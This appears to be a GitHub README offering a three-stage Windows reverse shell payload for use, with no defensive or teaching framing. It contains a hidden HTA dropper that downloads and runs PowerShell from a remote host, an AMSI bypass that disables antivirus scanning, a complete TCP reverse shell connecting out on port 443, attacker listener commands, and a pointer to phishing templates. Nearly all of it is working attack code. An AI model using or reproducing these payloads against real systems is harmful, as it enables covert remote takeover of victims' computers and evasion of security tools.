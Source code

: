 # reverseshell
A small 3-stage reverse shell payload for windows

Change the IP and PORT on all payloads and enjoy!😉

STAGE1.hta 

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````
<!DOCTYPE html>
<html>
<head>
	<HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no"SYSMENU="no" CAPTION="no" />
	<script language="VBScript">
	Function var_func()
	Dim var_shell
	Set var_shell = CreateObject("Wscript.Shell")
	var_shell.run "powershell.exe iex (iwr http://172.20.10.6/stage2.ps1 -UseBasicParsing)", 0, true
	End Function
	var_func
	self.close
	</script>
</head>
<body>
</body>
</html>
````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

STAGE2.ps1

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
iex (iwr http://172.20.10.6/stage3.ps1 -UseBasicParsing)
````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

STAGE3.ps1

````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````

$client = New-Object System.Net.Sockets.TCPClient('172.20.10.6',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


````````````````````````````````````````````````````````````````````````````````````````````````````````````````````````


CMD!!

1. sudo python3 -m http.server 80
2. sudo nc -nvlp 443



https://cyberchef.io/
https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master


HAPPY HACKING!

